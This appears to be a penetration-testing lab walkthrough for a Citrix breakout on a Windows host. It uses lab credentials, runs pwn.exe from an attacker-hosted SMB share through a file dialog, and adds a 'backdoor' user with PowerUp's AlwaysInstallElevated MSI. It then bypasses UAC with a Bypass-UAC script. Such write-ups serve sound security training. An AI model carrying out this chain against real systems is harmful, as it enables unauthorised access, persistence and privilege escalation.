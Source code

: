 
### Ubuntu (SMB Server)
```bash
smbserver.py -smb2support share $(pwd)
```

### Windows (Citrix Breakout)
```powershell
# Dialog Box Navigation (MS Paint)
\\127.0.0.1\c$\users\pmorgan
\\10.13.38.95\share

# Execute pwn.exe (Right-click and Open)
```

### Privilege Escalation (PowerUp)
```powershell
Import-Module .\PowerUp.ps1
Write-UserAddMSI
```

### Privilege Escalation (Registry Query)
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Run as New User
```powershell
runas /user:backdoor cmd
```

### UAC Bypass
```powershell
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```

### Verify Privileges
```powershell
whoami /all
whoami /priv
```




**1. Initial Access & Environment Reconnaissance**

- Login to `http://humongousretail.com/remote/` with credentials:
    - Username: pmorgan
    - Password: Summer1Summer!
    - Domain: htb.local
- Download `launch.ica` and connect to the Citrix environment.
- Observe File Explorer restrictions.

**2. Bypassing Path Restrictions (Dialog Box Exploitation)**

- **Open a Dialog Box:**
    - Run MS Paint.
    - File > Open.
- **Navigate using UNC Path:**
    - In the "File name" field, enter `\\127.0.0.1\c$\users\pmorgan`.
    - Set "File-Type" to "All Files".
    - Press Enter.

**3. Accessing SMB Shares from Restricted Environments**

- **Start SMB Server (Ubuntu):**
    - `root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)`
- **Access SMB Share (Citrix):**
    - Open MS Paint Dialog Box.
    - Enter `\\10.13.38.95\share` (replace with your Ubuntu server's IP).
    - Set "File-Type" to "All Files".
    - Press Enter.
- **Execute pwn.exe (Command Execution):**
    - Right click pwn.exe, and open it.
- **Copy files from SMB to local directory:**
    - Use the new cmd window that pwn.exe created.

**4. Alternate Tools for Bypassing Restrictions**

- **Alternate File Explorers:**
    - Use `Q-Dir` or `Explorer++` to bypass File Explorer restrictions.
    - Copy files using Explorer++ from the network share.
- **Alternate Registry Editors:**
    - Use `Simpleregedit`, `Uberregedit`, or `SmallRegistryEditor` to bypass registry editor restrictions.
- **Modify Shortcut Files:**
    - Right-click shortcut > Properties.
    - Modify "Target" to desired executable path.
    - Execute the modified shortcut.
- **Script Execution:**
    - Create `evil.bat` with `cmd` inside.
    - Execute `evil.bat`.

**5. Privilege Escalation**

- **Check AlwaysInstallElevated:**
    - PowerShell: `Import-Module .\PowerUp.ps1`
    - Cmd: `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
    - Cmd: `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
- **Create MSI for User Addition (PowerUp):**
    - PowerShell: `Write-UserAddMSI`
- **Execute MSI and Create User:**
    - Run `UserAdd.msi`.
    - Create user (e.g., `backdoor:T3st@123`).
- **Run Commands as New User:**
    - Cmd: `runas /user:backdoor cmd`

**6. UAC Bypass**

- **Import UAC Bypass Script:**
    - PowerShell: `Import-Module .\Bypass-UAC.ps1`
- **Execute UAC Bypass:**
    - PowerShell: `Bypass-UAC -Method UacMethodSysprep`
- **Verify Elevated Privileges:**
    - PowerShell: `whoami /all` or `whoami /priv`
    - Access C:\Users\Administrator

**Key Commands and Actions:**

- `smbserver.py -smb2support share $(pwd)` (Ubuntu)
- `reg query ...` (Cmd)
- `Import-Module ...` (PowerShell)
- `Write-UserAddMSI` (PowerShell)
- `runas /user:... cmd` (Cmd)
- `Bypass-UAC -Method ...` (PowerShell)
- `whoami /all` (PowerShell/Cmd)
- `whoami /priv` (PowerShell/Cmd)